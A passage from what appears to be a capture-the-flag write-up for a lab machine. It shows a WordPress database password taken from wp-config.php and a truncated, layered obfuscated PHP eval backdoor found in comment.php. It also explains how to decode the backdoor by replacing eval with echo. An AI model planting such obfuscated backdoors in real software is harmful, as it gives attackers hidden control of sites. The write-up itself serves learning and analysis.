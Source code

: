 **backup** is a repo while others are user's info.

![Screenshot from 2022-04-17 14-36-40](https://user-images.githubusercontent.com/79413473/163707981-ea5b7a8e-bdde-4159-9157-c4ce042c02da.png)

It's name is **wordpress.toby.htb** Let's download it as zip file.

Let's get wordpress DB password from **wp-config.php** file 

```
define( 'DB_USER', 'root' );
define( 'DB_PASSWORD', 'OnlyTheBestSecretsGoInShellScripts' );
define( 'DB_HOST', 'mysql.toby.htb' );
```
This password doesn't work anywhere for now 

![Screenshot from 2022-04-17 14-45-56](https://user-images.githubusercontent.com/79413473/163708324-6ebd6e55-48ee-43a3-a420-20774ffbcc3e.png)

### Identifying backdoored file

To be honest this part was bit stomping to think that attacker has already backdoored the files before toby even backed them up. So toby ended up backing up malicious files. 

You can use some github tools like [this](https://github.com/tinwaninja/Simple-Backdoor-Scanner-PHP) for scanning malicious keywords inside files

![Screenshot from 2022-04-17 15-34-38](https://user-images.githubusercontent.com/79413473/163709879-f586fc8e-51de-40cd-bfa4-45bc57a019ff.png)

we can do that manually by grepping for these kywords and **wp-includes/comment.php** file stands out.

```
eval(gzuncompress(str_rot13(base64_decode('a5wUmlLSs+wWUodmvyoauDVkCx608xfu7oz+5h1AEms4++y1RRR00v+r3nMs+3Ev/qXJSRDYf2yRWmzxYtvX/9Z2h9F///MC1JvqKmdiGcw60DAkxrWTwpB5L268dB+ucSDgpoY+yqEqeJkXHKoW/u0imwjCLD0oF9IrJGj3+sSrNojfMoLPMoiQUd16CTqQYETFXMqBIEGi9OQeEOI40FVSAjac/QM37BIjlL1/W+dlPB6qLd3MSRnuSkGiS3MRitChxxCl7Z1LMPA+pzt5xpr5MGKnQB2yR+nlhxVWnFlKvd4g4SQgx7AKREhfzpgxzB+kazjpoGPitHonOLGigVDfT/YtgCX8PRInfpMGvSWRD/cP1tZTUu/ipdWaw3Q8qHgj1SinHVAQuzpfqT08IRxb....[Snip]..
```
Now we can replace eval with *echo* or *print* in a php script to see what decoded value is. Let's call it **backdoor.php**

```
<?php echo gzuncompress(str_rot13(base64_decode('a5wUmlLSs...[Snip]...))); ?>

```
Now this will give another eval function with encoded data

```
eval(gzinflate(base64_decode(str_rot13('UW3UohgXSxH/ck/NNGASQaeNG...[Snip]..)));
```
we can replace eval again with echo and loop over it until eval function disappear. Now it is a good practice to do these thing in a virtual machine as i also mistakenly ran the eval function in php by forgetting to replace **eval** with **echo**. But as it was not that malicious i was saved. 

Let's create a script to do match **eval** and replace it with `<?php echo` as we don't have to worry about ending tags `?>` in file as php works around it. And `<?php` is important for executing the script for next iteration otherwise it's gonna just keep printing echo function again and again.
